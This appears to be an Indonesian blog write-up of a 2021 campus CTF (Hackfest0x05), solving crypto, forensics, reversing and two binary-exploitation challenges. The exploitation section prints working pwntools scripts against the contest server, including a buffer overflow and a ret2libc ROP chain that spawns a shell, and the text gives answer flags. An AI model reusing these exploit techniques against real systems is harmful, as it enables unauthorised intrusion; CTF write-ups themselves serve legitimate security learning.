Hello! Ini merupakan writeup saya sekaligus tulisan pertama saya di blog ini. 😳

Hackfest0x05 ini merupakan ajang kompetisi internal (Kampus) Capture The Flag yang diselenggarakan oleh Cyber Community Universitas Gunadarma (CCUG) pada tahun 2021 untuk merekrut anggota baru. Berikut adalah writeup saya.

## Cryptography
### kaXOR

:::note
Jenis	: Python Script + Encrypted Message\
Clue	: Just EZ chall, and I know u can do it!\
POC	: BruteForce Key
:::


Diberikan sebuah soal dengan file python dan cipher text yang harus di decrypt

```py
#!/usr/bin/python3
 from secrets import flag, key
 cipher = ''
 for i in range(len(flag)):
 	cipher += chr(ord(flag[i]) ^ key)

 a = open('cipher.txt', 'w')
 a.write(cipher)
 a.close()
```

Cipher text
```
����������������������������������������������������������������������봸���������������������������������������������������ᴸ����������������������������������������������������������������������������������������������ި�۫������ʩ��Ǭ��������������������߫�
```

Dapat diketahui bahwa key nya hanya 1 huruf karena pada file python ditulis (^ key) bukan (^ key[x]). Disini saya menggunakan script PHP dari dokumentasi CCUG sebelumnya. Berikut adalah solver yang saya gunakan.

```php
<?php 
$cipher = file_get_contents("cipher.txt"); 
$decX = ""; 
for ($i=0; $i < 255; $i++) { 
$dec = ""; 
for ($j=0; $j < strlen($cipher); $j++) { 
 $dec .= chr(ord($cipher[$j]) ^ $i); 
 } 
$decX .= "$dec\nxx\n"; 
} 
file_put_contents("a.txt", $decX); 

```
Setelah script dijalankan, hasil yang telah di decrypt akan masuk ke dalam file a.txt, seperti ini :

Banyak simbol-simbol tidak jelas, coba kita CTRL + F untuk mencari string flagnya dengan awalan `hackfest`

Dan flagnya ketemu, yaitu :<br/>
`hackfest0x5{bRu73F0rC3_i5_th3_R1gh7_4nSweR_f0R_th1S_Ch4l1enG3}`
<br/>
<br/>
## Digital Forensics
### d0cx
:::note
Jenis	: File document (.dotm)\
Clue	: docs have more functional, *document bukan cuman sekedar untuk baca dan nulis\
POC	: Olevba macro view\
:::

Disediakan sebuah file berbentuk .dotm, jika dibuka akan tampil seperti ini


Mari kita coba ubah warna fontnya menjadi warna merah 


Ternyata setelah di ubah warna nya hanya sebuah decoy, setelah saya teliti lagi ternyata ada Macros yang berjalan pada document ini, coba kita lihat menggunakan tools olevba, hasilnya akan seperti ini :


Muncul enam variable yang menampung Hex String, coba kita akan menghapus karakter `ChrW()` dan menggabungkannya agar menjadi string yang menyatu
```py
ori = 'ChrW(53) & ChrW(110) ... & ChrW(103)'

new = ''
for char in enam:
    if char not in ('C', 'h', 'r', 'W','(', ')', '&'):
        new += char

print('new : ', new)
```

Dan hasilnya akan menjadi seperti ini


Kita tahu bahwa string tersebut berbentuk Hex string yang merupakan ascii codes, jadi kita decode dari ascii code ke string menggunakan online converter https://onlinestringtools.com/convert-ascii-to-string


Akan menghasilkan sebuah string “TG9yZW0gSXBzdW0gaXMgc2ltcGx5IGR1bW15IHRleHQgb2YgdGhlIHByaW50aW5nIGFuZCB0eXBlc2V0dGluZyBpbmR1c3RyeS4gTG9yZW0gSXBzdW0gaGFzIGJlZW4gdGhlIGluZHVzdHJ5J3Mgc3RhbmRhcmQgZHVtbXkgdGV4dCBldmVyIHNpbmNlIHRoZSBodHRwczovL3Bhc3RlYmluLmNvbS85YW5zQkxZSyBidXQgYWxzbyB0aGUgbGVhcCBpbnRvIGVsZWN0cm9uaWMgdHlwZXNldHRpbmcsIHJlbWFpbmluZyBlc3NlbnRpYWxseSB1bmNoYW5nZWQuIEl0IHdhcyBwb3B1bGFyaXNlZCBpbiB0aGUgMTk2MHMgd2l0aCB0aGUgcmVsZWFzZSBvZiBMZXRyYXNldCBzaGVldHMgY29udGFpbmluZw==” yang mana ini merupakan string base64
<br/><br/>
Jadi kita decode sekali lagi dari base64 ke string agar dapat dibaca, menggunakan converter online https://www.base64decode.org/ dan hasilnya kita mendapatkan sebuah string = 
```
Lorem Ipsum is simply dummy text of the printing and typesetting industry. 
Lorem Ipsum has been the industry's standard dummy text ever since 
the https://pastebin.com/9ansBLYK but also the leap into electronic typesetting, 
remaining essentially unchanged. It was popularised in the 1960s 
with the release of Letraset sheets containing
```
dimana pada string tersebut terdapat sebuah link pastebin, kita buka link pastebin nya

Dan benar saja flag ada pada link tersebut<br/>
`hackfest0x5{de0bfuscatdd_shesss_678}`

### pemanasan foren
:::note
Jenis	: file text (.txt)\
Clue	: pemanasan dulu biar panas *panas kalau lihat EX sama yang baru\
POC	: Binary Conversion\
:::
Terdapat sebuah file berformat .txt yang berisi spasi dan titik
```
 .. .  . .. ...  .. .  .  .      ....  . ..    . .. ...  ..  ...  .      .. . .. ..    . .. .. . ... . .  .      ..   .. ..    . ...  .  .. .  .  ... .     . .  .. .    ..    . ..   .. .. . .. ..  ..  ..  . . ...  .. ... .    ..     ....     .. . . .... .. ..   .   ..   . .. ...   .. .   ...  .  ....  . . ..... ...  ..  ..   . .. .. . ...     .. ..    ..  .. . ..... ...      ..  .. .. .. .  .. .   .. ...   .. .   ...  ..  .. .   .. ...  . .....  .. .    .. . .  .. . .  ..  .. ..... .
```
Awalnya saya kira ini merupakan morse code dan ternyata bukan. Ini merupakan sebuah notasi biner yang mana spasi mewakili 0 sedangkan titik mewakili 1, Mari kita coba mengganti karakter spasi menjadi 0 dan karakter titik menjadi 1 menggunakan python
```py
s = " .. .  . .. ...  .. .  .  .      ....  . ..    . .. ...  ..  ...  .      .. . .. ..    . .. .. . ... . .  .      ..   .. ..    . ...  .  .. .  .  ... .     . .  .. .    ..    . ..   .. .. . .. ..  ..  ..  . . ...  .. ... .    ..     ....     .. . . .... .. ..   .   ..   . .. ...   .. .   ...  .  ....  . . ..... ...  ..  ..   . .. .. . ...     .. ..    ..  .. . ..... ...      ..  .. .. .. .  .. .   .. ...   .. .   ...  ..  .. .   .. ...  . .....  .. .    .. . .  .. . .  ..  .. ..... ."
new_s = s.replace(' ',"0").replace('.','1')

print(new_s)
```
Dan hasilnya seperti berikut


ini merupakan bilangan biner, mari kita decode menggunakan binary to ascii


Dan benar flag nya adalah<br/>
`hackfest0x5{b1n4ry_s1mpl3_p3m4n4s4n_4553}`
<br/><br/>

## Reverse Engineering
### Password Checker v1.0
:::note
Jenis	: ELF 64-bit binary<br/>
Clue	: Get the correct password!<br/>
POC	: Suspicious string
:::
Disediakan sebuah file berbentuk binary, maka kita harus decompile menggunakan aplikasi IDA Pro untuk menganalisa apakah ditemukan suspicious string atau tidak.

Terdapat sebuah variable mencurigakan yaitu variable supah_s3cret. Coba kita klik variable tersebut.

Dan ternyata benar ada sebuah flag pada variable tersebut<br/>
`hackfest0x5{the_strings_command_can_be_U5eful_but_dont_R3ly_0n_1t}`
<br/><br/>

## Binary Exploitation
### Ez BOF
:::note
Jenis	: ELF 64-bit Binary / nc 202.125.94.123 60901 <br/>
Clue	: none <br/>
POC	: Buffer Overflow
:::
Disediakan sebuah file binary ELF 64-bit little endian, maka dari itu kita harus decompile menggunakan aplikasi IDA Pro 64 version untuk analisa

Setelah di analisa ditemukan fungsi seperti berikut

Didalam ini terdapat fungsi gets yang dapat dipastikan vuln ketika karakter yang di input melebihi dari batasnya (buffer overflow) karena sistem buff overflow adalah merubah memory setelah buff, maka disini kita memanfaatkan fungsi tsb.
Kita coba test input A hingga melebihi max memory sehingga muncul sebuah error SEGFAULT. Kita coba buat exploitnya.

```py
from pwn import *

exe = ELF("./chall")
# io = exe.process()
io = remote("202.125.94.123", 60901)

#target 0x1337C0DE
payload = "A" * (44)
payload += "\xDE\xC0\x37\x13"


io.sendline(payload)
io.interactive()    
```

Jika dijalankan akan seperti ini :

Dan kita dapat flag nya<br/>
`hackfest0x5{Buffer_0verflow_1s_Danger0us_Yo!!}`

### EzROP
:::note
Jenis	: ELF 64-bit / nc 202.125.94.123 60902<br/>
Clue	: ROP<br/>
POC	: Return Oriented Programming & BOF
:::
Kita decompile file binary nya untuk analisa menggunakan IDA Pro, terdapat fungsi vuln() jika di klik dapat dilihat terdapat fungsi gets lagi

Mari kita coba buat payloadnya menggunakan python dan libc
```py
#!/usr/bin/env python

from pwn import *
from pprint import pprint

context.arch = 'amd64'

offset = 40

elf = ELF("./chall")
# p = elf.process()
p = remote("202.125.94.123", 60902)

rop = ROP(elf)
rop.call(elf.symbols["puts"], [elf.got['puts']])
rop.call(elf.symbols["vuln"])

p.recvuntil("\n")

payload = [
    b"A"*offset,
    rop.chain()
]

payload = b"".join(payload)
p.sendline(payload)

puts = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00"))
log.info(f"puts found at {hex(puts)}")

libc = ELF("libc6_2.31-0ubuntu9_amd64.so")
libc.address = puts - libc.symbols["puts"]
log.info(f"libc base address determined {hex(libc.address)}")

rop = ROP(libc)
rop.call("puts", [ next(libc.search(b"/bin/sh\x00")) ])
rop.call("system", [ next(libc.search(b"/bin/sh\x00")) ])
rop.call("exit")

payload = [
    b"A"*offset,
    rop.chain()
]

payload = b"".join(payload)
with open("payload", "wb") as h:
    h.write(payload)
p.sendline(payload)

p.interactive()
```
Ketika script dijalan kan, akan seperti ini

Dan flagnya adalah <br/>
`hackfest0x5{ez_R0p_Ez_W1n_:D__}`<br/>
Disini saya mengikuti tutorial yang diberikan oleh John Hammond <br/>
<iframe width="100%" height="468" src="https://www.youtube.com/embed/i5-cWI_HV8o?si=gcdt6OylQlkEG9qM" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>